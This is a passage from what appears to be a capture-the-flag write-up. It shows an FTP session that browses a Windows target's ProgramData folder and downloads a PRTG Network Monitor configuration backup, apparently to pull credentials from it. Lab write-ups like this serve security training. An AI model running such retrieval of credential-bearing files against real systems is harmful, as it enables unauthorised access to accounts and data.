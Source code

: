 ```bash
ftp> cd Users
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49594|)
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
01-15-24  11:03AM       <DIR>          Public
226 Transfer complete.
ftp> cd Administrator
550 Access is denied. 
ftp> exit
```
Maybe we can get the configuration of that webapp, PRTG Network Monitor. Using Google, the path is C:\ProgramData\Paessler\PRTG Network Monitor.
```bash
ftp> cd ProgramData
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49755|)
125 Data connection already open; Transfer starting.
12-15-21  10:40AM       <DIR>          Corefig
02-03-19  12:15AM       <DIR>          Licenses
11-20-16  10:36PM       <DIR>          Microsoft
02-03-19  12:18AM       <DIR>          Paessler
02-03-19  08:05AM       <DIR>          regid.1991-06.com.microsoft
07-16-16  09:18AM       <DIR>          SoftwareDistribution
02-03-19  12:15AM       <DIR>          TEMP
11-20-16  10:19PM       <DIR>          USOPrivate
11-20-16  10:19PM       <DIR>          USOShared
02-25-19  10:56PM       <DIR>          VMware
226 Transfer complete.
ftp> cd Paessler
250 CWD command successful
ftp> ls
229 Entering Extended Passive Mode (|||49827|)
150 Opening ASCII mode data connection.
10-23-24  11:36PM       <DIR>          Configuration Auto-Backups
10-26-24  08:00PM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
10-26-24  12:00AM       <DIR>          Logs (Web Server)
10-26-24  08:00PM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
10-26-24  08:12PM              1742731 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
229 Entering Extended Passive Mode (|||49830|)
125 Data connection already open; Transfer starting.
100% |***********************************************************************************************************************************************************************************************|  1126 KiB    1.15 MiB/s    00:00 ETA
226 Transfer complete.
1153755 bytes received in 00:00 (1.15 MiB/s)
ftp> exit
221 Goodbye.
```